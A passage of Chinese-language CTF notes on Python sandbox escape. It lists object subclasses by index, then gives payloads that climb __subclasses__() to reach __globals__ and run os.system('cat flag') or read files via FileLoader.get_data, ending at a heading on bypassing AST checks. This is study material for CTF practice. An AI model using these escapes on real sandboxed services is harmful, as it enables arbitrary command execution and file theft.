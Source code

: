     (158, <class 'itertools.zip_longest'>)
    (159, <class 'itertools.permutations'>)
    (160, <class 'itertools.product'>)
    (161, <class 'itertools.repeat'>)
    (162, <class 'itertools.groupby'>)
    (163, <class 'itertools._grouper'>)
    (164, <class 'itertools._tee'>)
    (165, <class 'itertools._tee_dataobject'>)
    (166, <class 'reprlib.Repr'>)
    (167, <class 'collections.deque'>)
    (168, <class '_collections._deque_iterator'>)
    (169, <class '_collections._deque_reverse_iterator'>)
    (170, <class '_collections._tuplegetter'>)
    (171, <class 'collections._Link'>)
    (172, <class 'functools.partial'>)
    (173, <class 'functools._lru_cache_wrapper'>)
    (174, <class 'functools.partialmethod'>)
    (175, <class 'functools.singledispatchmethod'>)
    (176, <class 'functools.cached_property'>)
    (177, <class 'contextlib.ContextDecorator'>)
    (178, <class 'contextlib._GeneratorContextManagerBase'>)
    (179, <class 'contextlib._BaseExitStack'>)
    (180, <class 'rlcompleter.Completer'>)
    ```
    

#### 搞事

可以尝试从某些类的 `__init__` 里面搞到 `__globals__` ，比如：

```python
[].__class__.__base__.__subclasses__()[-2].__init__.__globals__['sys'].modules['os'].system("cat flag")
```

也可以利用子类里面的危险类：

```python
(37, <class 'builtin_function_or_method'>)
(94, <class '_frozen_importlib_external.FileLoader'>)
(132, <class 'os._wrap_close'>)
```

比如：

```python
[].__class__.__base__.__subclasses__()[94].get_data("", "flag")
[].__class__.__base__.__subclasses__()[132].close.__globals__["system"]("cat flag")
```

python2 里还有 file 可以直接 open

### 绕过 AST 检测

具体相对复杂，单独列出一条，见下面

## 绕过 AST 检测逃逸
